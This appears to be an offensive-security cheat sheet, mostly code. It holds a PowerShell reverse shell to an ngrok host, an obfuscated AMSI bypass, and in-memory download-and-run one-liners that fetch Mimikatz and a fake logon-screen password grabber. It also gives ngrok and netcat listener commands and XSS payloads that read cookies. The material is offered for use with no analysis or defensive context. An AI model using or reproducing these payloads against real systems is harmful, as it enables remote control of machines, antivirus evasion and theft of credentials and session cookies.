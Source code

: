 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------

# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>
```

